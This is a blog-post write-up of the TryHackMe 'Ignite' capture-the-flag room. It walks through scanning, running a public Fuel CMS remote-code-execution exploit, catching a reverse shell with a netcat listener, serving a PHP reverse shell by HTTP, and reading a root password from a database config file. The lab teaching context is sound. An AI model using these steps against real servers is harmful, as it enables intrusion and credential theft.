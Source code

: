 ```yaml
---
layout: post
title:  TryHackMe | Ignite Writeup
author:  sudosuraj
date:  2024-01-31
categories:  [CTF]
tags:  [TryHackMe,writeup]
image:
  path: /assets/img/headers/ignite.png
  alt: ignite
---
```

#  TryHackMe | Ignite Writeup
![image](https://tryhackme-badges.s3.amazonaws.com/0xbug.png)  
Hello friend!  
In this write up we gonna explore a THM ctf called Iginte.  
Here is tryhackme link : [Ignite](https://tryhackme.com/room/ignite)  
Level: Easy  
## Info Gathering and enumeration
###  Port Scanning
```@bash
nmap -sCV 10.10.232.66
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-31 12:42 IST
Nmap scan report for 10.10.232.66
Host is up (0.17s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
| http-robots.txt: 1 disallowed entry 
|_/fuel/
```

visiting webpage we got this  
![image](https://github.com/sudosuraj/sudosuraj.github.io/assets/81553118/28eed893-e321-4f0f-8787-a1c8fee80725)  

after google search I found this exploit for this CMS on github : https://github.com/ice-wzl/Fuel-1.4.1-RCE-Updated  
```@bash
git clone https://github.com/ice-wzl/Fuel-1.4.1-RCE-Updated.git
cd Fuel-1.4.1-RCE-Updated
```
##  Initial Access
terminal 1  
```@bash
nc -lvnp 1337
```
Terminal 2  
```@bash
python3 Fuel-Updated.py http://10.10.232.66 10.17.126.99 1338
```
and we got shell access,  
![image](https://github.com/sudosuraj/sudosuraj.github.io/assets/81553118/360958db-0ead-423e-bea1-51c5345fe08d)  

To convert it into reverse shell, transfer edited php rev shell into victim machine using python.  
```@bash
php-reverse-shell.php
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
![image](https://github.com/sudosuraj/sudosuraj.github.io/assets/81553118/10ae037a-5890-428d-8a06-8d4b04a57e65)

Now, take revshell for full shell access!!!

##  Privilege Escalation
For privilege escalation part, I enumerated all the method and techniques, but not work,  
but when I check the web page again, I found a configuration file mentioned there.  
** fuel/application/config/database.php **  
In this file, I found the root user's password!!!

##  Final Notes!
That's it guys, I hope you may find this useful, feel free for suggestion and improvements in writeup.  
##  Be My Friend!
- [**LinkedIn**](https://www.linkedin.com/in/sudosuraj)
- [**Instagram**](https://www.instagram.com/sudosuraj)
- [**Telegram**](https://telegram.me/sudosuraj)
- [**Twitter**](https://twitter.com/sudosuraj)
- [**Github**](https://github.com/sudosuraj)
- [**Hackerone**](https://hackerone.com/init06)
- [**Bugcrowd**](https://bugcrowd.com/sudosuraj)
- [**TryHackMe**](https://tryhackme.com/p/0xbug)


